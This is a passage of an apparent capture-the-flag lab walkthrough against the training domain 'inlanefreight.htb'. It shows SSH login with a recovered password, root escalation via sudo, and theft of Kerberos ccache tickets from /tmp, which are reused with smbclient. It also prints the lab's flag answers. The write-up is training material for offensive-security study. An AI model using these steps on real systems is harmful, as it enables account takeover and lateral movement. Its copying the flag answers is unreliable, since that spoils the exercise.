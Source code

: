 ```shell
Password of svc_workstations: Password4

Connect as svc_workstations on target with ssh:
> ssh svc_workstations@inlanefreight.htb@10.129.204.23 -p 2222
Password:

svc_workstations@inlanefreight.htb@linux01:~$ cat flag.txt
Mor3_4cce$$_m0r3_Pr1v$
```

6. Check the sudo privileges of the svc_workstations user and get access as root. Submit the flag in /root/flag.txt directory as the response.
```shell
Escalate privilege:
svc_workstations@inlanefreight.htb@linux01:~$ sudo -l

User svc_workstations@inlanefreight.htb may run the following commands on linux01:
    (ALL) ALL
    
svc_workstations@inlanefreight.htb@linux01:~$ sudo su
root@linux01:/home/svc_workstations@inlanefreight.htb


As root:
> cat /root/flag.txt
Ro0t_Pwn_K3yT4b
```

7. Check the /tmp directory and find Julio's Kerberos ticket (ccache file). Import the ticket and read the contents of julio.txt from the domain share folder \\DC01\julio.
```shell
> ls -la /tmp
-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1414 Oct  9 13:00 krb5cc_647401106_EmHFRF
-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  9 13:00 krb5cc_647401106_HRJDux

This is the 2 Julio tickets.
Try first one:
> cp /tmp/krb5cc_647401106_HRJDux .
> export KRB5CCNAME=/root/krb5cc_647401106_HRJDux
> klist
> smbclient //dc01/julio -k -no-pass
This result as an error ! Try the second ticket !
Same process but second tickets then smblient:

> smbclient //dc01/julio -k -no-pass
smb: \> get julio.txt

> cat julio.txt
JuL1()_SH@re_fl@g
```
